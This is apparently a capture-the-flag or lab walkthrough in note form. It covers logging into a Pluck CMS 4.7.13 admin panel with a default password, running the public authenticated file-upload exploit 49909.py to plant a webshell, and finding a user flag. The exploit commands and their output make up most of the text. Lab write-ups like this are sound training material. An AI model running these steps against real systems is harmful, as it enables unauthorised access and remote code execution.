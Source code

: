 ![[Pasted image 20231106194248.png]]
PHP Admin page

went to http://192.168.128.110/login.php and used the password `admin` which worked

![[Pasted image 20231106195242.png]]

Running `pluck 4.7.13`

```
searchsploit pluck 4.7.13           
```       
	 Exploit Title                                                                                                                       |  Path
	Pluck CMS 4.7.13 - File Upload Remote Code Execution (Authenticated)                                                                 | php/webapps/49909.py
	Shellcodes: No Results
	Papers: No Results

So since I'm authenticated this should work

```sh
cp /usr/share/exploitdb/exploits/php/webapps/49909.py .
```

```
head -n40 49909.py
```
	target_ip = sys.argv[1]
	target_port = sys.argv[2]
	password = sys.argv[3]
	pluckcmspath = sys.argv[4]

Bad UX lol
```
python3 49909.py 192.168.128.110 592 admin /
```
	Authentification was succesfull, uploading webshell
	Uploaded Webshell to: http://192.168.128.110:592//files/shell.phar

Ghetto webshell lol
![[Pasted image 20231106200255.png]]

Search for `local.txt`
```sh
cd /
find / -type f -name "local.txt" 2>/dev/null
```
	/home/tammy/local.txt

![[Pasted image 20231106200620.png]]

local flag
`155bc29d8ad571c4ce8eead54d451a18`

###### Privilege Escalation
